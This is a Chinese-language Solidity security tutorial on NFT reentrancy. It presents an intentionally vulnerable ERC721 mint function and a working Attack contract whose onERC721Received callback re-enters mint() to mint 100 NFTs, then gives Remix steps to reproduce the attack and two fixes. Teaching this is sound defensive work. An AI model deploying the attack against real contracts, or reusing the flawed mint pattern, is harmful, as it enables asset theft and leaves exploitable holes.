

# WTF Solidity 合约安全: S16. NFT重入攻击

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造100个NFT。

## NFT重入风险

我们在[S01 重入攻击](https://github.com/AmazingAng/WTFSolidity/blob/main/S01_ReentrancyAttack/readme.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（[ERC721](https://github.com/AmazingAng/WTFSolidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTFSolidity/blob/main/40_ERC1155/readme.md)）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 `ERC721` 和 `ERC1155` 有潜在重入风险的函数：


## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造100个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造100个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 100){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`100`个NFT，攻击成功。



## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

## 总结

这一讲，我们介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了100个NFT。目前主要有两种预防重入攻击的办法：检查-影响-交互模式（checks-effect-interaction）和重入锁。